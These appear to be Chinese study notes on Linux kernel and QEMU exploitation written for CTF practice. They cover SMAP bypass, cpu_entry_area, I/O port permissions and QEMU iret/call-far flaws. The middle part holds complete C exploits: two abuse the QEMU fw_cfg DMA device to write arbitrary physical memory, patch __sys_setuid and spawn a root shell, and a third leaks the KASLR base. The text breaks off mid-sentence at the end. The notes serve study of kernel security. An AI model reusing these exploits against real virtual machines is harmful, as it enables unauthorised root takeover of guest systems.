通用保护错误（sysret 要求 RCX 中包含规范的返回地址，由于我们能完全控制寄存器，可使其触发错误）→ set_memory_x （将 IDT 作为地址传递以使其可执行）→
无效操作码（由于 cpa_flush 中的检查，会调用 BUG_ON ）→ 通过 IDT 执行 shellcode
bypass smap
在 EFLAGS 寄存器中有一个名为 AC （对齐检查）的位，若启用该位，则不允许非对齐内存移动操作；但在内核空间中，它却有另一层含义：用于临时禁用 SMAP，以便在内核空间与用户空间之间复制数据。
在每次 ring 3 到 ring 0 的上下文切换例程中， AC 都会以某种方式被清除。对于中断处理，每个处理程序都以 clac 指令开头。这导致在 IOP 场景中绕过 SMAP：由于不执行实际的处理程序， clac 指令将永远不会运行，因此 AC 将保持设置状态，SMAP 被禁用。
启用 AC ，在用户态设置一个伪造的栈，并将中断重定向到 mov rsp, X; ret gadget：简单的 ROP。
如果 kPTI 关闭，那将轻松获胜；但如果它已启用，我们可能仍需要 IOP 来交换页表。
在 ARM 架构中，紧接在 zero_pfn 之后的页面正是映射 kPTI 跳板的第一级页表，从这里开始，我们可以通过修改各个条目，使四级页表重叠在同一个页面上。这样我们就不需要物理地址泄露来伪造页表。为了映射实际代码，我们可以再次重叠页面，并在与伪造页表相同的页面中写入 ring 0 shellcode。
cpu_entry_area
make cpu-entry-area great again – kqx
地址位于
0xfffffe0000000000 - 0xfffffe7fffffffff (=39 bits) cpu_entry_area mapping
结构体如下
cpu_entry_area.h - arch/x86/include/asm/cpu_entry_area.h - Linux source code v7.0.10 - Bootlin Elixir Cross Referencer
struct cpu_entry_area { char gdt[PAGE_SIZE]; #ifdef CONFIG_X86_32 char guard_entry_stack[PAGE_SIZE]; #endif struct entry_stack_page entry_stack_page ; #ifdef CONFIG_X86_32 char guard_doublefault_stack[PAGE_SIZE]; struct doublefault_stack doublefault_stack ; #endif struct tss_struct tss ; #ifdef CONFIG_X86_64 struct cea_exception_stacks estacks ; #endif struct debug_store cpu_debug_store ; struct debug_store_buffers cpu_debug_buffers ; };
64位程序中
struct cpu_entry_area { char gdt[PAGE_SIZE]; struct entry_stack_page entry_stack_page ; struct tss_struct tss ; struct cea_exception_stacks estacks ; struct debug_store cpu_debug_store ; struct debug_store_buffers cpu_debug_buffers ; };
包括
SP0
入口栈页
从syscall进入后，将rsp切到entry_stack_page，完成cr3转换
然后从tss取出rsp0，存放着当前进程内核栈的栈顶地址，将rsp切换到rsp0，然后保存寄存器并进入do_syscall_64
在Linux 6.2前，cpu_entry_area并未随机化处理，而是映射到一个固定地址0xfffffe0000001000（地址 0xfffffe0000000000 包含 IDT）
自Linux 6.2后，出于安全考虑，引入了cea_offset函数，当启用 kASLR 时，该函数会随机化 cpu_entry_area 相对于 IDT（仍位于固定地址 0xfffffe0000000000）的偏移量
SGDT
x86指令，有时可在ring 3权限下使用，返回GDT的地址和大小
UMIP 用户模式指令预防
cr4的第11位（UMIP位）可以为支持UMIP的CPU提供防护，当该位被置位时，当ring 3程序尝试执行SGDT、SIDT、SLDT、SMSW、STR是会触发异常（通用保护故障（GPF））
在现代 Linux 内核（5.4+）和较新的 CPU 上，UMIP 是默认开启的
然而，在 Linux 中并未发生这种情况。实际返回的是一些垃圾值，因此，Linux 决定通过将 GDT 基地址替换为垃圾值，SGDT此时返回 address: 0xfffffffffffe0000 ; size: 0 ，SIDT : address: 0xffffffffffff0000 ; size: 0 ，SMSW : 0x80050033 ，SLDT : 0x50 ，STR : 0x40
一般qemu不会开启UMIP，使用TCG时也没有实现补丁
I/O端口
Kernel Blues, or Why x86 Is So Convoluted | Henry Wang | Personal Website
许多 I/O 端口实际上并未触发GP（通用保护）异常，而是直接成功通过，不过并非所有端口都如此
端口号较大的情况仍会触发GP
某些特定端口号（如 0x20…）也会触发GP
CPU与IO通信主要有两种方式
Isolated/port I/O(PIO) ：所有I/O设备被映射到与主内存地址空间分离的地址空间（端口号）Memory-Mapping I/O(MMIO) ：I/O设备直接映射到与主内存相同的地址空间
在x86架构中，由于需要完全向后兼容整个芯片家族，因此常常继承了旧芯片的历史遗留特性。
具体而言，它使用16位数字标识端口号，并且可以通过in/out指令一次性传递8/16/32位数值，实际上大多数I/O设备只支持8位数据传输，为了传输16/24/32位大小的数据，需要采取更巧妙的方式
某些I/O设备使用多个端口，每个端口对应结果的特定字节
某些I/O设备只使用一个端口，通过状态翻转机制实现，首次写入字节时对应低位，第二次写入时对应高位字节
某些I/O设备有一个选择器端口，用于选择在“数据”端口中设置哪个属性
某些I/O设备综合运用上述多种方式
除了少数的标准端口号会在所有机器上保持一致，大多数端口号会因为接入的设备而异
显然，如果能直接用in/out指令编写与I/O外设交互的代码，那么任何用户都可以随意“破坏“几乎所有东西，因此在保护模式时x86处理器会进行一系列的检查来限制对I/O的访问
对应in指令（以及out指令），触发通用保护需要三个关键条件
保护模式
当前权限级别大于I/O权限级别，CPL>IOPL
当前IO端口号不在”permission bit set“中（IO位图，每个端口占1bit，0表示允许，1表示禁止）
struct tss_struct { struct x86_hw_tss x86_tss ; struct x86_io_bitmap io_bitmap ; } __aligned(PAGE_SIZE); struct x86_hw_tss { u32 reserved1; u64 sp0; u64 sp1; u64 sp2; u64 reserved2; u64 ist[7 ]; u32 reserved3; u32 reserved4; u16 reserved5; u16 io_bitmap_base; } __attribute__((packed)); struct x86_io_bitmap { u64 prev_sequence; unsigned int prev_max; unsigned long bitmap[IO_BITMAP_LONGS + 1 ]; unsigned long mapall[IO_BITMAP_LONGS + 1 ]; };
如果 TSS 中的 io_bitmap_base 大于或等于 TSS 的 Limit（界限） ，CPU 会认为没有 I/O 位图 ，从而无条件拦截 所有 Ring 3 的 in/out 指令（触发 #GP），没触发则会通过io_bitmap_base（其值表示从 TSS 段起始位置的偏移量）找到位图，检查对应端口的bit位
还记得0x20端口会被禁用吗，这是因为这对应了tss->sp0字段，再加上tss的limit限制，我们大概只能访问0到0x340之间的端口
rflags寄存器中有一个名为IOPL的两个字段
当前特权级不大于线程的IOPL时允许处理器与端口交互，当然也可以修改TSS中的IOPB中对应的位掩码
该漏洞只在qemu上，不依赖内核版本和编译配置，启用KVM也同样有效
常规的qemu配置会打开一个设备，如下
dev: fw_cfg_io, id "" dma_enabled = true x-file-slots = 32 (0x20 ) acpi-mr-restore = true
这个设备用于将文件从客户机传递到虚拟机，与设备交互的方法
#define FW_CFG_PORT_SEL 0x510 #define FW_CFG_PORT_DATA 0x511 #define BIOS_CFG_DMA_ADDR_HIGH 0x514 #define BIOS_CFG_DMA_ADDR_LOW 0x518 #define FW_CFG_SIGNATURE 0x00 #define FW_CFG_ID 0x01 #define FW_CFG_UUID 0x02 #define FW_CFG_RAM_SIZE 0x03 #define FW_CFG_NOGRAPHIC 0x04 #define FW_CFG_NB_CPUS 0x05 #define FW_CFG_MACHINE_ID 0x06 #define FW_CFG_KERNEL_ADDR 0x07 #define FW_CFG_KERNEL_SIZE 0x08 #define FW_CFG_KERNEL_CMDLINE 0x09 #define FW_CFG_INITRD_ADDR 0x0a #define FW_CFG_INITRD_SIZE 0x0b #define FW_CFG_BOOT_DEVICE 0x0c #define FW_CFG_NUMA 0x0d #define FW_CFG_BOOT_MENU 0x0e #define FW_CFG_MAX_CPUS 0x0f #define FW_CFG_KERNEL_ENTRY 0x10 #define FW_CFG_KERNEL_DATA 0x11 #define FW_CFG_INITRD_DATA 0x12 #define FW_CFG_CMDLINE_ADDR 0x13 #define FW_CFG_CMDLINE_SIZE 0x14 #define FW_CFG_CMDLINE_DATA 0x15 #define FW_CFG_SETUP_ADDR 0x16 #define FW_CFG_SETUP_SIZE 0x17 #define FW_CFG_SETUP_DATA 0x18 #define FW_CFG_FILE_DIR 0x19 32 位大端序数字struct FWCfgFile { uint32_t size; uint16_t select; uint16_t reserved; char name[56 ]; };
很多内核pwn题会将flag存储在initramfs.cpio.gz或rootfs.cpio.gz，利用FW_CFG_INITRD_DATA可以轻松转储这些文件内容
FW_CFG_PORT_DMA用于单次快速DMA传输所有所需数据
typedef enum fw_cfg_ctl_t { fw_ctl_error = 1 , fw_ctl_read = 2 , fw_ctl_skip = 4 , fw_ctl_select = 8 , fw_ctl_write = 16 } fw_cfg_ctl_t ; typedef struct FWCfgDmaAccess { uint32_t control; uint32_t length; uint64_t address; } FWCfgDmaAccess;
要检查DMA传输是否启用，需从选择器FW_CFG_ID中读取数据，并验证第二位是否处于激活状态
为了设置DMA传输，我们需要将FWCfgDmaAccess结构体存储在一个已知的物理内存地址上
control字段指定了要执行的命令，在某些情况下还指定了要使用的选择器
length用于fw_ctl_read，指定要读取的字节数；以及fw_ctl_skip，指定要通过文件推进的查找位置字节数
address仅用于fw_ctl_read，并包含目标物理地址
设置好结构体后，我们只需将其物理地址写入FW_CFG_PORT_DMA_{LOW,HIGH}即可！通过改变数据块（例如initrd，因为它足够大，能包含从0到255的所有字节）的寻址位置，我们可以向任意物理地址写入任意字节
通过使用 ptregs 和 SP0 来找到一个包含用户可控数据的固定物理地址是轻而易举的
借助任意物理写入能力，我们可以使用与解决/dev/mem挑战（利用 kptr_restrict）相同的判定方法，来找到内核的物理地址。此时，我们可以修补__sys_setuid函数，以授予任意用户root权限
原来我们可以将字符串“QEMU”（或任意子串）存储到任意物理地址中。这可以通过使用签名选择器（FW_CFG_SIGNATURE）来实现，通过修补__sys_setuid+61可以实现
下面是两种实现方法
#include "helpers.h" #include <sys/io.h> #include <endian.h> #include <arpa/inet.h> #include <string.h> #define CONFIG_PHYSICAL_START 0x1000000ul #define CONFIG_PHYSICAL_ALIGN 0x0200000ul #define KPTR_RESTRICT "/proc/sys/kernel/kptr_restrict" #define KPTR_RESTRICT_OFFSET 0x1eb93a0ul #define SETUID_CHECK 0x02b960dul #define SETUID_PATCH 0x75 #define FW_CFG_PORT_SEL 0x510 #define FW_CFG_PORT_DATA 0x511 #define BIOS_CFG_DMA_ADDR_HIGH 0x514 #define BIOS_CFG_DMA_ADDR_LOW 0x518 #define FW_CFG_SIGNATURE 0x00 #define FW_CFG_ID 0x01 #define FW_CFG_UUID 0x02 #define FW_CFG_RAM_SIZE 0x03 #define FW_CFG_NOGRAPHIC 0x04 #define FW_CFG_NB_CPUS 0x05 #define FW_CFG_MACHINE_ID 0x06 #define FW_CFG_KERNEL_ADDR 0x07 #define FW_CFG_KERNEL_SIZE 0x08 #define FW_CFG_KERNEL_CMDLINE 0x09 #define FW_CFG_INITRD_ADDR 0x0a #define FW_CFG_INITRD_SIZE 0x0b #define FW_CFG_BOOT_DEVICE 0x0c #define FW_CFG_NUMA 0x0d #define FW_CFG_BOOT_MENU 0x0e #define FW_CFG_MAX_CPUS 0x0f #define FW_CFG_KERNEL_ENTRY 0x10 #define FW_CFG_KERNEL_DATA 0x11 #define FW_CFG_INITRD_DATA 0x12 #define FW_CFG_CMDLINE_ADDR 0x13 #define FW_CFG_CMDLINE_SIZE 0x14 #define FW_CFG_CMDLINE_DATA 0x15 #define FW_CFG_SETUP_ADDR 0x16 #define FW_CFG_SETUP_SIZE 0x17 #define FW_CFG_SETUP_DATA 0x18 #define FW_CFG_FILE_DIR 0x19 struct FWCfgFile { uint32_t size; uint16_t select; uint16_t reserved; char name[56 ]; }; typedef enum fw_cfg_ctl_t { fw_ctl_error = 1 , fw_ctl_read = 2 , fw_ctl_skip = 4 , fw_ctl_select = 8 , fw_ctl_write = 16 } fw_cfg_ctl_t ; typedef struct FWC_fg_dma_access { uint32_t control; uint32_t length; uint64_t address; } FWC_fg_dma_access; uint8_t * initrd_cache = NULL ;uint64_t get_physical_addr (uint64_t virt_addr) { int page_size = getpagesize(); uint64_t page_offset = virt_addr % page_size; uint64_t virt_page_index = virt_addr / page_size; int fd = open("/proc/self/pagemap" , O_RDONLY); if (fd == -1 ) { perror("open pagemap" ); return -1 ; } uint64_t entry; if (lseek(fd, virt_page_index * sizeof (entry), SEEK_SET) == -1 ) { perror("lseek pagemap" ); close(fd); return -1 ; } if (read(fd, &entry, sizeof (entry)) != sizeof (entry)) { perror("read pagemap" ); close(fd); return -1 ; } close(fd); if (!(entry & (1ULL << 63 ))) { fprintf (stderr , "Page not present\n" ); return -1 ; } uint64_t pfn = entry & ((1ULL << 55 ) - 1 ); uint64_t phys_addr = (pfn * page_size) + page_offset; return phys_addr; } uint64_t default_get_cmd (uint32_t control, uint64_t address, uint32_t length) { FWC_fg_dma_access* cmd = calloc (1 , sizeof (FWC_fg_dma_access)); cmd->control = htonl(control); cmd->address = htobe64(address); cmd->length = htonl(length); return get_physical_addr((uint64_t )cmd); } uint32_t get_initrd_size () { uint32_t initrd_size = 0 ; outw(FW_CFG_INITRD_SIZE, FW_CFG_PORT_SEL); for (int i = 0 ; i < 0x4 ; ++i) *((int8_t *)&initrd_size + i) = inb(FW_CFG_PORT_DATA); return initrd_size; } uint8_t * read_initrd () { uint32_t initrd_size; uint8_t * initrd_data; if (initrd_cache != NULL ) return initrd_cache; initrd_size = get_initrd_size(); initrd_data = calloc (1 , initrd_size); if (initrd_data == NULL ) return NULL ; outw(FW_CFG_INITRD_DATA, FW_CFG_PORT_SEL); for (int i = 0 ; i < initrd_size; ++i) initrd_data[i] = inb(FW_CFG_PORT_DATA); initrd_cache = initrd_data; return initrd_data; } int arbw (uint64_t phys_addr, uint8_t value, uint64_t (* get_cmd)(uint32_t , uint64_t , uint32_t )) { uint64_t cmd_physaddr; uint32_t cmd_physaddr_lo; uint32_t cmd_physaddr_hi; uint64_t byte_addr; uint32_t byte_off; uint32_t initrd_size; uint8_t * initrd_data; initrd_size = get_initrd_size(); initrd_data = read_initrd(); byte_addr = (uint64_t )memmem(initrd_data, initrd_size, &value, sizeof (uint8_t )); if (byte_addr == 0 ) return 0 ; byte_off = byte_addr - (uint64_t )initrd_data; if (get_cmd == NULL ) cmd_physaddr = default_get_cmd(fw_ctl_skip | fw_ctl_select | (FW_CFG_INITRD_DATA << 16 ), 0 , byte_off); else cmd_physaddr = get_cmd(fw_ctl_skip | fw_ctl_select | (FW_CFG_INITRD_DATA << 16 ), 0 , byte_off); cmd_physaddr_lo = (uint32_t )(cmd_physaddr & 0xFFFFFFFFU ); cmd_physaddr_hi = (uint32_t )(cmd_physaddr >> 32 ); outl(htonl(cmd_physaddr_hi), BIOS_CFG_DMA_ADDR_HIGH); outl(htonl(cmd_physaddr_lo), BIOS_CFG_DMA_ADDR_LOW); if (get_cmd == NULL ) cmd_physaddr = default_get_cmd(fw_ctl_read | (FW_CFG_INITRD_DATA << 16 ), phys_addr, 1 ); else cmd_physaddr = get_cmd(fw_ctl_read | (FW_CFG_INITRD_DATA << 16 ), phys_addr, 1 ); cmd_physaddr_lo = (uint32_t )(cmd_physaddr & 0xFFFFFFFFU ); cmd_physaddr_hi = (uint32_t )(cmd_physaddr >> 32 ); outl(htonl(cmd_physaddr_hi), BIOS_CFG_DMA_ADDR_HIGH); outl(htonl(cmd_physaddr_lo), BIOS_CFG_DMA_ADDR_LOW); return 1 ; } uint32_t check_kptr_restrict () { uint32_t r; FILE* f; f = fopen(KPTR_RESTRICT, "rb" ); fscanf (f, "%d" , &r); fclose(f); return r; } int main (int argc, char ** argv) { setbuf(stdin , NULL ); setbuf(stdout , NULL ); setbuf(stderr , NULL ); ioperm(0 , 0xffff , 1 ); puts ("start of bruteforce" ); uint64_t phys_kbase; for (phys_kbase = CONFIG_PHYSICAL_START + CONFIG_PHYSICAL_ALIGN * 0x10000 ; phys_kbase >= CONFIG_PHYSICAL_START; phys_kbase -= CONFIG_PHYSICAL_ALIGN){ if (!arbw(phys_kbase + KPTR_RESTRICT_OFFSET, 0xaa , NULL )) goto err; } printf ("phys kbase @ %p\n" , phys_kbase); if (!arbw(phys_kbase + SETUID_CHECK, SETUID_PATCH, NULL )) goto err; puts ("pwned" ); return 0 ; err: puts ("exploit failed" ); return 1 ; }
#include "helpers.h" #include <sys/io.h> #include <endian.h> #include <sys/syscall.h> #include <signal.h> #include <asm/ldt.h> #define WRITE_LDT 1 #define CONFIG_PHYSICAL_START 0x1000000ul #define CONFIG_PHYSICAL_ALIGN 0x0200000ul #define KPTR_RESTRICT "/proc/sys/kernel/kptr_restrict" #define KPTR_RESTRICT_OFFSET 0x1eb93a0ul #define SETUID_CHECK 0x02b960dul #define FW_CFG_PORT_SEL 0x510 #define FW_CFG_PORT_DATA 0x511 #define BIOS_CFG_DMA_ADDR_HIGH 0x514 #define BIOS_CFG_DMA_ADDR_LOW 0x518 #define FW_CFG_SIGNATURE 0x00 #define SIGNATURE "QEMU" #define SP0_PTREGS_PHYS_ADDR 0xf60cf58; typedef enum fw_cfg_ctl_t { fw_ctl_error = 1 , fw_ctl_read = 2 , fw_ctl_skip = 4 , fw_ctl_select = 8 , fw_ctl_write = 16 } fw_cfg_ctl_t ; typedef struct FWCfgDmaAccess { uint32_t control; uint32_t length; uint64_t address; } FWCfgDmaAccess; void sigfpe_handler (int sig, siginfo_t *si, void *context) { ucontext_t *uc = (ucontext_t *)context; uc->uc_mcontext.gregs[REG_RIP] += 3 ; } uint64_t sp0_get_cmd (uint32_t control, uint64_t address, uint32_t length) { control = htonl(control); address = htobe64(address); length = htonl(length); asm volatile ( ".intel_syntax noprefix\n" "mov r15d, %1\n" "shl r15, 32\n" "mov r14d, %0\n" "or r15, r14\n" "mov r14, %2\n" "mov rax, 0\n" "div rax\n" ".att_syntax prefix\n" : : "r" (control), "r" (length), "r" (address) : "rax" , "r14" , "r15" ) ; return SP0_PTREGS_PHYS_ADDR; } int arbw (uint64_t phys_addr, char * value, int size) { uint64_t cmd_physaddr; uint32_t cmd_physaddr_lo; uint32_t cmd_physaddr_hi; uint64_t byte_addr; uint32_t byte_off; byte_addr = (uint64_t )memmem(SIGNATURE, sizeof (SIGNATURE), value, size); if (byte_addr == 0 ) return 0 ; byte_off = byte_addr - (uint64_t )SIGNATURE; cmd_physaddr = sp0_get_cmd(fw_ctl_skip | fw_ctl_select | (FW_CFG_SIGNATURE << 16 ), 0 , byte_off); cmd_physaddr_lo = (uint32_t )(cmd_physaddr & 0xFFFFFFFFU ); cmd_physaddr_hi = (uint32_t )(cmd_physaddr >> 32 ); if (cmd_physaddr_hi) outl(htonl(cmd_physaddr_hi), BIOS_CFG_DMA_ADDR_HIGH); outl(htonl(cmd_physaddr_lo), BIOS_CFG_DMA_ADDR_LOW); cmd_physaddr = sp0_get_cmd(fw_ctl_read | (FW_CFG_SIGNATURE << 16 ), phys_addr, size); cmd_physaddr_lo = (uint32_t )(cmd_physaddr & 0xFFFFFFFFU ); cmd_physaddr_hi = (uint32_t )(cmd_physaddr >> 32 ); if (cmd_physaddr_hi) outl(htonl(cmd_physaddr_hi), BIOS_CFG_DMA_ADDR_HIGH); outl(htonl(cmd_physaddr_lo), BIOS_CFG_DMA_ADDR_LOW); return 0 ; } uint32_t check_kptr_restrict () { uint32_t r; FILE* f; f = fopen(KPTR_RESTRICT, "rb" ); fscanf (f, "%d" , &r); fclose(f); return r; } void fw_cfg () { uint64_t phys_kbase; for (phys_kbase = CONFIG_PHYSICAL_START + CONFIG_PHYSICAL_ALIGN * 0x1000 ; phys_kbase >= CONFIG_PHYSICAL_START; phys_kbase -= CONFIG_PHYSICAL_ALIGN){ arbw(phys_kbase + KPTR_RESTRICT_OFFSET, SIGNATURE, sizeof (SIGNATURE)); if (check_kptr_restrict() != 0 ) break ; } printf ("phys kbase @ %p\n" , phys_kbase); arbw(phys_kbase + SETUID_CHECK+0 , "E" , 1 ); arbw(phys_kbase + SETUID_CHECK+1 , "M" , 1 ); arbw(phys_kbase + SETUID_CHECK+2 , "E" , 1 ); arbw(phys_kbase + SETUID_CHECK+3 , "M" , 1 ); arbw(phys_kbase + SETUID_CHECK+4 , "E" , 1 ); setuid(0 ); system("/bin/sh" ); } int main () { struct sigaction sa_fpe =0 }; sa_fpe.sa_sigaction = sigfpe_handler; sa_fpe.sa_flags = SA_SIGINFO; sigaction(SIGFPE, &sa_fpe, NULL ); fw_cfg(); hlt("finished" ); return 0 ; }
qemu pwn
在9.1版本前的qemu的所有版本，iret和call far指令都存在缺陷
iretq 用于从中断返回时，弹出栈的rip、cs、eflags、rsp、ss
call far 用于改变指令指针、修改 cs 的值，并将保存的 rip 和 cs 压入栈中
qemu的开发者假设这些指令肯定是从ring 0返回，如果当前在ring 3，并返回ring 3，只是设置新cs、ss值时，qemu自动访问栈，仿佛当前特权级是0
将rsp更改为任意可写内核页面地址，进行lcall，我们可以在任意地址写入调用指令的地址，由于我们至少可以控制lcall指令地址的最后一个字节的值，因此每次可以写入一个任意字节
用户态发生故障时rip控制权交给内核，此时内核仍在用户页表，需要一个共享栈执行上下文切换
通过触发整数除零错误在共享栈上构建一个有效的iret帧结构（r15~r12设置为cs/rflags/rsp/ss），然后sgdt读取共享栈地址，使rsp指向该地址，再次触发iret使rip跳转rsp触发缺页异常
当CPU执行整数除零操作时触发异常，如果使用sigaction注册了sigfpe则不会中断（浮点除零默认不中断，仅在MXCSR寄存器第二位置零时触发中断）
泄露代码
#include "helpers.h" #include <sys/syscall.h> #include <signal.h> #include <setjmp.h> uint64_t kbase;static sigjmp_buf env;void sigfpe_handler (int sig, siginfo_t *si, void *context) { ucontext_t *uc = (ucontext_t *)context; uc->uc_mcontext.gregs[REG_RIP] += 3 ; } void sigsegv_handler (int sig, siginfo_t *si, void *context) { ucontext_t *uc = (ucontext_t *)context; kbase = (uint64_t ) uc->uc_mcontext.gregs[REG_RIP]; siglongjmp(env, 1 ); } void kaslr () { asm volatile ( ".intel_syntax noprefix\n" "mov r15, 0x33\n" "mov r14, 0x206\n" "mov r13, 0x133a000\n" "mov r12, 0x2b\n" "mov rax, 0\n" "div rax\n" "push rax\n" "sgdt [rsp]\n" "mov rax, qword [rsp+2-8]\n" "add rax, 0x1f50\n" "mov rsp, rax\n" "iretq\n" ".att_syntax noprefix\n" ) ;} int main () { struct sigaction sa_fpe =0 }; sa_fpe.sa_sigaction = sigfpe_handler; sa_fpe.sa_flags = SA_SIGINFO; sigaction(SIGFPE, &sa_fpe, NULL ); struct sigaction sa_segv =0 }; sa_segv.sa_sigaction = sigsegv_handler; sa_segv.sa_flags = SA_SIGINFO; sigemptyset(&sa_segv.sa_mask); sigaction(SIGSEGV, &sa_segv, NULL ); mmap((void *)0x1338000 , PAGE_SIZE*2 , PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_FIXED | MAP_ANONYMOUS | MAP_GROWSDOWN | MAP_POPULATE, -1 , 0 ); if (sigsetjmp(env, 1 ) == 0 ) { kaslr(); } printf ("[!] kbase: 0x%lx\n" , kbase); return 0 ; }
我们可以好好看看造成泄露的汇编代码
void kaslr () { asm volatile ( ".intel_syntax noprefix\n" "mov r15, 0x33\n" "mov r14, 0x206\n" "mov r13, 0x133a000\n" "mov r12, 0x2b\n" "mov rax, 0\n" "div rax\n" "push rax\n" "sgdt [rsp]\n" "mov rax, qword [rsp+2-8]\n" "add rax, 0x1f50\n" "mov rsp, rax\n" "iretq\n" ".att_syntax noprefix\n" ) ;}
image-20260529195146492
我们把一些关键信息（要伪造的栈结构）放入r12~r15寄存器，只有这四个寄存器才会推入共享栈中，触发整数除零中断后，转到内核态执行中断处理（asm_exc_divide_error）
image-20260529195443006
可以看见我们在一个栈页底部实现了
push r12 push rsp push r11 push r15 push rip
处理完函数后返回用户态，使用sgdt指令得到cpu_entry的基址，然后计算得到残留在入口栈的内核text段地址
image-20260529201203072
到了iret
image-20260529201528068
可以看见，iret后面正是我们伪造的结构，这是某个处理整数除零异常时留下的
call error_entry时将rip放在共享栈上
然后进入立刻
► 0xffffffff94c01b20 <error_entry> push rsi 0xffffffff94c01b21 <error_entry+1> mov rsi, qword ptr [rsp + 8]
将用于返回内核地址存入了rsi然后保存寄存器时放在栈上
push r15 push r14 push r13 push r12
在加上qemu中iret的漏洞，即是在ring 3也可以执行iret指令
image-20260529201906138
立刻触发缺页异常
image-20260529202030341
处理完了后，在我们的栈上会留下结构体，这个结构体里面保存着内核地址
asm_sysvec_apic_timer_interrupt+15
image-20260529204155228
然后sigsetjump返回到原栈上（？），不知道什么用？
struct
tty
使用pahole跑一遍
struct tty_struct { int magic; struct kref kref ; struct device * dev ; struct tty_driver * driver ; const struct tty_operations * ops ; int index; struct ld_semaphore ldisc_sem ; struct tty_ldisc * ldisc ; struct mutex atomic_write_lock ; struct mutex legacy_mutex ; struct mutex throttle_mutex ; struct rw_semaphore termios_rwsem ; struct mutex winsize_mutex ; spinlock_t ctrl_lock; spinlock_t flow_lock; struct ktermios termios ; struct ktermios termios_locked ; char name[64 ]; struct pid * pgrp ; struct pid * session ; long unsigned int flags; int count; struct winsize winsize ; long unsigned int stopped:1 ; long unsigned int flow_stopped:1 ; long unsigned int :0 ; long unsigned int unused:62 ; int hw_stopped; long unsigned int ctrl_status:8 ; long unsigned int packet:1 ; long unsigned int :0 ; long unsigned int unused_ctrl:55 ; unsigned int receive_room; int flow_change; struct tty_struct * link ; struct fasync_struct * fasync ; wait_queue_head_t write_wait; wait_queue_head_t read_wait; struct work_struct hangup_work ; void * disc_data; void * driver_data; spinlock_t files_lock; struct list_head tty_files ; int closing; unsigned char * write_buf; int write_cnt; struct work_struct SAK_work ; struct tty_port * port ; };
可以通过打开/dev/ptmx来分配一个tty_struct结构体
其魔数为0x5401
struct tty_operations { struct tty_struct * (*lookup )(struct tty_driver *, struct file *, int ); int (*install)(struct tty_driver *, struct tty_struct *); void (*remove)(struct tty_driver *, struct tty_struct *); int (*open)(struct tty_struct *, struct file *); void (*close)(struct tty_struct *, struct file *); void (*shutdown)(struct tty_struct *); void (*cleanup)(struct tty_struct *); int (*write)(struct tty_struct *, const unsigned char *, int ); int (*put_char)(struct tty_struct *, unsigned char ); void (*flush_chars)(struct tty_struct *); int (*write_room)(struct tty_struct *); int (*chars_in_buffer)(struct tty_struct *); int (*ioctl)(struct tty_struct *, unsigned int , long unsigned int ); long int (*compat_ioctl) (struct tty_struct *, unsigned int , long unsigned int ) ; void (*set_termios)(struct tty_struct *, struct ktermios *); void (*throttle)(struct tty_struct *); void (*unthrottle)(struct tty_struct *); void (*stop)(struct tty_struct *); void (*start)(struct tty_struct *); void (*hangup)(struct tty_struct *); int (*break_ctl)(struct tty_struct *, int ); void (*flush_buffer)(struct tty_struct *); void (*set_ldisc)(struct tty_struct *); void (*wait_until_sent)(struct tty_struct *, int ); void (*send_xchar)(struct tty_struct *, char ); int (*tiocmget)(struct tty_struct *); int (*tiocmset)(struct tty_struct *, unsigned int , unsigned int ); int (*resize)(struct tty_struct *, struct winsize *); int (*get_icount)(struct tty_struct *, struct serial_icounter_struct *); int (*get_serial)(struct tty_struct *, struct serial_struct *); int (*set_serial)(struct tty_struct *, struct serial_struct *); void (*show_fdinfo)(struct tty_struct *, struct seq_file *); int (*poll_init)(struct tty_driver *, int , char *); int (*poll_get_char)(struct tty_driver *, int ); void (*poll_put_char)(struct tty_driver *, int , char ); int (*proc_show)(struct seq_file *, void *); };
泄露内核text段地址和内核线性映射区，劫持内核执行流
机制
KASLR
和普通用户态的ASLR差不多，都是基地址+偏移
在未开启 KASLR 保护机制时 * 内核代码段的基址为 0xffffffff81000000 * 直接映射区域的基址为 0xffff888000000000
FGKASLR
KASLR的plus版本，以函数粒度重新排布内核代码 原来不同的函数会在.text一个节上，现在不同的函数在不同的节上
ksymtab
kernel_symbol结构体其记录了函数的偏移、函数名的偏移以及命名空间的偏移 在使用fgkalsr编译后函数重定向通过此结构体 struct kernel_symbol { int value_offset; int name_offset; int namespace_offset; };
kernel_symbol结构体存储的偏移就能找到具体函数的内存地址 比如 cat /proc/kallsyms | grep commit_creds
ksymtab的偏移 __start___ksymtab和__stop___ksymtab 被记录在each_symbol_section函数中 只需要 cat /proc/kallsyms | grep each_symbols_section> addr_A x/10i arrd_A > ... > mov rbx,addr_B > ... x/10gx addr_B > addr_C x/10wx addr_C > neg_offset x/10i addr_B + neg_offset - 0x100000000 > addr_offset_function
是否发生内核堆栈溢出 ，通常取自 gs 段寄存器某个固定偏移处的值
SMAP/SMEP
指管理模式访问保护和管理模式执行保护 用来防止内核态访问/执行用户态数据 ，完全将内核空间与用户空间隔离 绕过的两种方式: 篡改CR4寄存器->ret2usr ：CR4寄存器的第20位标识SMEP开关（0关，1开），利用kernel ROP篡改CR4，然后完成ret2usr。 不过现在都是KPTI的内核，内核页面的用户地址没有执行权限 ，ret2usr已经过时
ret2dir ：简单说，把用户地址的数据映射到内核地址空间上 。利用内核线性映射区对物理空间地址的完整映射，可以找到用户空间的数据，但是地址在内核空间上，利用内核地址访问用户的数据
KPTI
指内核页表隔离 ，内核空间与用户空间使用两组不同的页表集
系统调用初始化
Linux Kernel源码阅读： x86-64 系统调用实现细节（超详细） - 知乎
Linux Kernel 源码学习：PER_CPU 变量、swapgs及栈切换（一） - 知乎
先看比较老的代码
void syscall_init (void ) { wrmsrl(MSR_STAR, ((u64)__USER32_CS)<<48 | ((u64)__KERNEL_CS)<<32 ); wrmsrl(MSR_LSTAR, system_call); wrmsrl(MSR_CSTAR, ignore_sysret); ...... wrmsrl(MSR_SYSCALL_MASK, X86_EFLAGS_TF|X86_EFLAGS_DF|X86_EFLAGS_IF| X86_EFLAGS_IOPL|X86_EFLAGS_AC); }
系统启动时会初始化以下型号特定寄存器
IA32_STAR：CS/SS段选择符，决定内核CS/SS
IA32_LSTAR：RIP内核入口，syscall后跳转地址
IA32_CSTAR：32位兼容入口
IA32_SYSCALL_MASK：RFLAGS掩码，内核RFLAGS设置
IA32_KERNEL_GS_BASE：GS基址，内核局部数据访问
段选择子（CS）
图解CPU的实模式与保护模式 - 小牛呼噜噜 - 博客园
最开始是CPU和内存的地址总线宽度为16位，而8086型CPU的地址线有20条，为了增强CPU和内存的寻址能力，发明了段
使用段基址左移加上段内偏移地址得到实际的物理地址，在8086中
